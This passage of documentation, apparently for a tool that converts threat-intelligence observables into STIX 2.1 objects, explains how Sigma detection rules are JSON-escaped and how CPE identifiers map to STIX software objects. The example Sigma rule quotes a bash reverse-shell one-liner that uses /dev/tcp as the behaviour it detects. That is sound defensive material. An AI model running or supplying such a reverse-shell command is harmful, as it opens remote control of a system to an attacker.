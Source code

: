 The SIGMA RULE is encoded with JSON escapes before being written into the `pattern` value. e.g.

```
title: Linux Reverse Shell Indicator\r\nid: 83dcd9f6-9ca8-4af7-a16e-a1c7a6b51871\r\nstatus: experimental\r\ndescription: Detects a bash contecting to a remote IP address (often found when actors do something like 'bash -i >& \/dev\/tcp\/10.0.0.1\/4242 0>&1')\r\ndate: 2021\/10\/16\r\nauthor: Florian Roth\r\nlogsource:\r\n   product: linux\r\n   category: network_connection\r\ndetection:\r\n   selection:\r\n      Image|endswith: '\/bin\/bash'\r\n   filter:\r\n      DestinationIp: \r\n         - '127.0.0.1'\r\n         - '0.0.0.0'\r\n   condition: selection and not filter

```

The `<RULE NAME>` is defined by the value in the `title: ` field of the YAML rule.

### 20. CPE Observables (`software`)

* e.g. Full CPE URI `cpe:2.3:o:apple:mac_os_x:10.1.3:*:*:*:*:*:*:*`

CPEs can be identified as they start with `cpe:` and have 12 separators `:` in total.

CPEs are represented by [STIX Software SCOs (`"type": "software"`)](https://docs.oasis-open.org/cti/stix/v2.1/csprd01/stix-v2.1-csprd01.html#_Toc16070740)

#### STIX 2.1 extension-definition

https://raw.githubusercontent.com/signalscorps/stix2-objects/main/extension-definition/extension-definition--6c453e0f-9895-498f-a273-2e2dda473377/20220101000000000.json

#### STIX 2.1 software SCO

```json
{
    "type": "software",
    "spec_version": "2.1",
    "id": "software--<GENERATED BY STIX2 LIBRARY>",
    "name": "CPE: <EXTRACTED CPE VENDOR> <EXTRACTED CPE PRODUCT> <EXTRACTED CPE VERSION>",
    "cpe": "<EXTRACTED CPE OBSERVABLE VALUE>",  
    "version": "<EXTRACTED CPE VERSION>",
    "vendor": "<EXTRACTED CPE VENDOR>",
    "extensions": {
      "extension-definition--d83fce45-ef58-4c6c-a3f4-1fbc32e98c6e": {
        "extension_type": "property-extension",
        "misp_warning_list_match": [
          "MISP WARNING LIST MATCH[0]"
        ],
        "custom_warning_list_match": [
          "CUSTOM WARNING LIST MATCH[0]"
        ]
      },
      "extension-definition--6c453e0f-9895-498f-a273-2e2dda473377": {
        "extension_type": "property-extension",
        "cpe23Uri": "<EXTRACTED CPE OBSERVABLE VALUE>",
        "part": "<EXTRACTED CPE PART>",
        "vendor": "<EXTRACTED CPE VENDOR>",
        "product": "<EXTRACTED CPE PRODUCT>",
        "version": "<EXTRACTED CPE VERSION>",
        "update": "<EXTRACTED CPE UPDATE>",
        "edition": "<EXTRACTED CPE EDITION>",
        "language": "<EXTRACTED CPE LANGUAGE>",
        "sw_edition": "<EXTRACTED CPE SW_EDITION>",
        "target_sw": "<EXTRACTED CPE TARGET_SW>",
        "target_hw": "<EXTRACTED CPE TARGET_HW>",
        "other": "<EXTRACTED CPE OTHER>"
      }
    }
}
```
